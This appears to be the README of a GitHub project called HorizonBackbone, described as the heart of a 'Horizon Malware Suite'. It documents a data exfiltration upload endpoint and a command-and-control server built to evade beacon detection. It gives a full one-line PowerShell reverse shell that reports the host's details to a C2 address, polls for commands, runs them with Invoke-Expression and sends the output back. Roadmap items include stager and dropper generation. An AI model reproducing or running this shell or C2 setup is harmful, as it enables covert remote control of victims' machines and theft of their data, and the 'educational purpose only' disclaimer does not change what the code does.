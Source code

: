 ```
██╗  ██╗ ██████╗ ██████╗ ██╗███████╗ ██████╗ ███╗   ██╗██████╗  █████╗  ██████╗██╗  ██╗██████╗  ██████╗ ███╗   ██╗███████╗
██║  ██║██╔═══██╗██╔══██╗██║╚══███╔╝██╔═══██╗████╗  ██║██╔══██╗██╔══██╗██╔════╝██║ ██╔╝██╔══██╗██╔═══██╗████╗  ██║██╔════╝
███████║██║   ██║██████╔╝██║  ███╔╝ ██║   ██║██╔██╗ ██║██████╔╝███████║██║     █████╔╝ ██████╔╝██║   ██║██╔██╗ ██║█████╗  
██╔══██║██║   ██║██╔══██╗██║ ███╔╝  ██║   ██║██║╚██╗██║██╔══██╗██╔══██║██║     ██╔═██╗ ██╔══██╗██║   ██║██║╚██╗██║██╔══╝  
██║  ██║╚██████╔╝██║  ██║██║███████╗╚██████╔╝██║ ╚████║██████╔╝██║  ██║╚██████╗██║  ██╗██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝  ╚═╝╚═╝╚══════╝ ╚═════╝ ╚═╝  ╚═══╝╚═════╝ ╚═╝  ╚═╝ ╚═════╝╚═╝  ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
```

-----------------------------------------------------------------------------------

**THIS SERVICE IS DESIGNED FOR EDUCATIONAL PURPOSE ONLY! DO NOT USE IT FOR ILLEGAL PURPOSES!**

The heart of the Horizon Malware Suite and used for all kinds of things.

## Roadmap

- [X] List files
- [x] Simple web-interface
- [x] File download
- [ ] Delete file(s)
- [X] Make a better UI for the web-interface
- [X] C2 Server and API
- [X] Frontend for C2 Server
- [ ] API & frontend authentication
- [ ] Dynamic creation of stagers/droppers
- [ ] Frontend-Dialog for stager/dropper creation
- [ ] File upload for droppers


## Setup & Start

Clone the repository and run `docker-compose build` to build the images.

Start the stack with `docker-compose up -d` and you are good to go.

## Usage

### Dashboard

After starting the stack you can access the Webinterface by accessing `http://SERVER_IP_OR_DOMAIN:8000` in your browser.

There you can (*currently*) choose between the Data Exfiltration and the C2 Server.

### Data Exfiltration

To exfiltrate data you can use the '/upload' endpoint.

You can see your uploaded files under `http://SERVER_IP_OR_DOMAIN:8000/list-files-view`.

![DataExfil](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/39b7923c-8328-4672-8dc7-5f75cc725565)

If you click on the filename you can access the file and download it.

![FileView](https://github.com/maxbirnbacher/HorizonBackbone/assets/66524685/75e3ff57-d2e7-45da-8c4d-8f8beffb0653)

### C2 Server

The C2 Server is intended for long-term usage. Communication should take place over a long period of time that are non-linear to avoid beacon detection.

The workflow is as follows:

1. Register a new client. This will create a new client in the database and return a unique ID. This ID is used for all further communication with the client. (`http://SERVER_IP_OR_DOMAIN:8000/register`)
2. Queue new commands for the client via the web-interface in the detail view of each client.
3. The client will check for new command(s) after the specified interval and execute it/them. (`http://SERVER_IP_OR_DOMAIN:8000/commands/{connection_id}`)
4. The client will send the results of the command(s) to the server. (`http://SERVER_IP_OR_DOMAIN:8000/output/send/{connection_id}`)
5. The server will store the results in the database and make them available via the web-interface. Hit the refresh button in the detail view of the client to see the output.
6. Unregister the client if you don't need it anymore. (`http://SERVER_IP_OR_DOMAIN:8000/unregister/{connection_id}`) *interface currently in development*

#### Reverse Shell Example

Here is an example of a reverse shell using the C2 Server.

```PowerShell
$ip_address=((ipconfig|Select-String "IPv4 Address").ToString() -split ": ")[-1];$os_type=(Get-WmiObject -Class Win32_OperatingSystem).Caption;$hostname=(Get-WmiObject -Class Win32_ComputerSystem).Name;$username=[Environment]::UserName;$main_url="http://10.0.0.9:8000";$interval=30;$intervalUnit="Seconds";$body=@{os_type=$os_type;ip_address=$ip_address;hostname=$hostname;username=$username;password="placeholder"}|ConvertTo-Json;Write-Host "IP Address: $ip_address";Write-Host "OS Type: $os_type";Write-Host "Hostname: $hostname";Write-Host "Username: $username";$url="http://10.0.0.9:8000/register?os_type=$os_type&ip_address=$ip_address&hostname=$hostname&username=$username&password=$password";$response=Invoke-RestMethod -Method Post -Uri $url;$connection_id=$response.id;Write-Host "Registered connection with ID: $connection_id";while($true){$url="$main_url/commands/$connection_id";$command=Invoke-RestMethod -Method Get -Uri $url;Write-Host "Received command: $command";if([string]::IsNullOrEmpty($command)){write-host "No command received yet...";$startSleepCmd="Start-Sleep -$intervalUnit $interval";$startSleepCmdStr=[String]$startSleepCmd;Invoke-Expression $startSleepCmdStr;continue;}if($command -eq "exit"){write-host "Exiting...";break;}write-host "Executing command: $command";if($command -ne "" -or $null -ne $command){$commandStr=[String]$command;$result=Invoke-Expression $commandStr;$output=$result|Out-String;$body=@{output=$output}|ConvertTo-Json;$url="$main_url/output/send/$connection_id";$body=@{output=$output}|ConvertTo-Json;Invoke-RestMethod -Method Post -Uri $url -Body $body;}}
```

### API

You can find all the API endpoints in the under `http://SERVER_IP_OR_DOMAIN:8000/docs`.






